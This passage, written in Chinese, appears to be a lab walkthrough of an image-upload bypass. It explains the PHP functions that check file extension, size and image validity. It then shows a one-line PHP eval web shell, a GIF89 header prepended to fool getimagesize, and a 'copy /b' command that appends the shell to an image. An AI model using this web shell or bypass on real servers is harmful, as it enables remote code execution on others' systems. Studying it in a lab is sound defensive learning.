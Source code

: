 ```
?>
```




 strrpos(string , find ,start)  查找find字符在string字符中的最后一次出现的位置，start参数可选，表示指定从哪里开始



 substr(string,start,length) 返回string字符中从start开始的字符串，length参数可选，表示返回字符的长度



 strtolower(string) 返回给定字符串的小写



 getimagesize(string) ：函数将测定任何 GIF，JPG，PNG，SWF，SWC，PSD，TIFF，BMP，IFF，JP2，JPX，JB2，JPC，XBM 或 WBMP 图像文件的大小并返回图像的尺寸以及文件类型和一个可以用于普通 HTML 文件中 `IMG` 标记中的 height/width 文本字符串。如果不能访问 `filename` 指定的图像或者其不是有效的图像，**getimagesize()** 将返回 **`FALSE`** 并产生一条 E\_WARNING级的错误。所以 getimagesize函数的作用是判断上传的文件是不是有效的图片



move\_uploaded\_file（file,newlocal） 函数表示把给定的文件移动到新的位置



 所以  $uploaded\_ext  表示的是上传文件的后缀名 ，这里限制上传的文件的后缀名必须以 jpg 、jpeg　或　png　结尾，同时大小<100000，同时上传的文件必须是有效的图片格式（不只是以图片的格式结尾，而且文件内容是图片格式的）。



我们直接上传一句话木马，然后把文件名改为 1.jpg



```
<?php   @eval($_POST['xie']);  ?>
```




发现上传不了，因为仅仅后缀是图片格式的还不行，文件内容必须还得是图片格式的。 



![](https://img-blog.csdn.net/20180930192159394?watermark/2/text/aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM2MTE5MTky/font/5a6L5L2T/fontsize/400/fill/I0JBQkFCMA==/dissolve/70)



所以我们在文件头部加上了jpg格式的 GIF89 



```
GIF89      
<?php @eval($_POST['xie'])?>
```




或者我们可以在cmd命令行下： copy  /b  1.jpg+1.php  1.jpg    把一句话木马写入到图片的最末端也可以。 



在文件头部加了jpg格式的 GIF89 标识后成功上传！ 


